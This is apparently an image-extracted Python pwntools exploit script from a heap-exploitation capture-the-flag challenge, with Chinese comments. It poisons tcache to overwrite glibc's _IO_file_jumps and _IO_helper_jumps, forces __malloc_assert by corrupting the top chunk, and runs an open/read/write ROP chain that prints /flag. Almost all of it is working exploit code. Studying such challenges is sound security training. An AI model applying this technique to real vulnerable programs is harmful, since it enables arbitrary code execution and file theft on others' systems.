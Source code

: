```python
# 通过任意地址写修改_IO_file_jumps + 0x60为setcontext + 61
setcontext = libc.sym['setcontext'] + 61
_IO_file_jumps = libc.sym['_IO_file_jumps'] + 0x60
_IO_helper_jumps = libc.address + 0x219960

add(index=0, size=0x20, content=b'aaa')
add(index=1, size=0x20, content=b'aaa')

delete(index=0)
delete(index=1)

edit(index=1, size=0x20, content=p64(key ^ _IO_file_jumps))

add(index=1, size=0x20, content=b'/flag\x00\x00\x00')
add(index=0, size=0x20, content=p64(setcontext))

# 通过任意地址写修改_IO_helper_jumps + 0xa0为ROP链地址， + 0xa8为ret地址

## 部署rop链
pop_rdi_ret = 0x02e6c5 + libc.address
pop_rsi_ret = 0x154928 + libc.address
pop_rdx_ret = 0x120272 + libc.address
pop_rax_ret = 0x49f10 + libc.address
syscall_ret = 0x95196 + libc.address
leave_ret = 0x5a1ac + libc.address
ret = 0xf73b9 + libc.address
rop_chunk = heap_base + 0x860
flag_addr = heap_base + 0x830

payload = p64(0)
payload += p64(pop_rax_ret) + p64(2) + p64(pop_rdi_ret) + p64(flag_addr)
payload += p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_ret) + p64(0)
payload += p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(0) + p64(pop_rdi_ret) + p64(3)
payload += p64(pop_rsi_ret) + p64(heap_base + 0x2000) + p64(pop_rdx_ret) + p64(0x20)
payload += p64(syscall_ret)
payload += p64(pop_rax_ret) + p64(1) + p64(pop_rdi_ret) + p64(1)
payload += p64(syscall_ret)
add(index=10, size=0x100, content=payload)

## 任意地址写修改_IO_helper_jumps + 0xa0
add(index=3, size=0x30, content=b'aaa')
add(index=4, size=0x30, content=b'aaa')

delete(index=3)
delete(index=4)

edit(index=4, size=0x20, content=p64(key ^ (_IO_helper_jumps + 0xa0)))
add(index=3, size=0x30, content=b'aaa')
payload = p64(rop_chunk + 8) + p64(ret)
add(index=4, size=0x30, content=payload)


# 通过修改top chunk size，触发__malloc_assert，调用fflush(stderr)
add(index=2, size=0x58, content=b'aaaa')
edit(index=2, size=0x60, content=b'a'*0x58 + p64(0x20))

sh.sendlineafter(choice_words, str(menu_add))
sh.sendlineafter(add_index_words, str(3))
sh.sendlineafter(add_size_words, str(0x50))

print(sh.recv())
```